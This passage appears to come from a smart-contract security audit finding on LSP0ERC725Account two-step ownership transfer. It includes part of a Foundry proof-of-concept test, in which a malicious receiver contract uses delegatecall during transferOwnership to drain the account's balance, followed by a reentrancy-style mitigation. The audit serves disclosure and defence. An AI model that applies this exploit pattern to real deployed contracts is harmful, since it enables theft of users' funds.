 ```solidity

        // Overwrite _owner with the previous owner using delegatecall
        Implementation implementation = new Implementation();
        account.execute(
            4, // OPERATION_4_DELEGATECALL
            address(implementation),
            0,
            abi.encodeWithSelector(Implementation.setOwner.selector, owner)
        );

        return "";
    }

    function supportsInterface(bytes4) external view returns (bool) {
        return !universalReceiverDisabled;
    }

    receive() payable external {}
}

contract TwoStepOwnership_POC is Test {
    LSP0ERC725Account account;

    function setUp() public {
        // Deploy LSP0 account with address(this) as owner and give it some LYX
        account = new LSP0ERC725Account(address(this));
        deal(address(account), 10 ether);
    }

    function testCanDrainContractInTransferOwnership() public {
        // Attacker deploys malicious receiver contract
        MaliciousReceiver maliciousReceiver = new MaliciousReceiver(account);

        // Victim calls transferOwnership() for malicious receiver
        account.transferOwnership(address(maliciousReceiver));

        // All LYX in the account has been drained
        assertEq(address(account).balance, 0);
        assertEq(address(maliciousReceiver).balance, 10 ether);
    }
}
```

### Recommended Mitigation

Add a `inTransferOwnership` state variable, which ensures that `acceptOwnership()` cannot be called while `transferOwnership()` is in execution, similar to a reentrancy guard:

```solidity
function transferOwnership(
    address pendingNewOwner
) public virtual override(LSP14Ownable2Step, OwnableUnset) {
    inTransferOwnership = true;

    // Some code here...

    inTransferOwnership = false;
}

function acceptOwnership() public virtual override {
    if (inTransferOwnership) revert CannotAcceptOwnershipDuringTransfer();

    // Some code here...
}
```
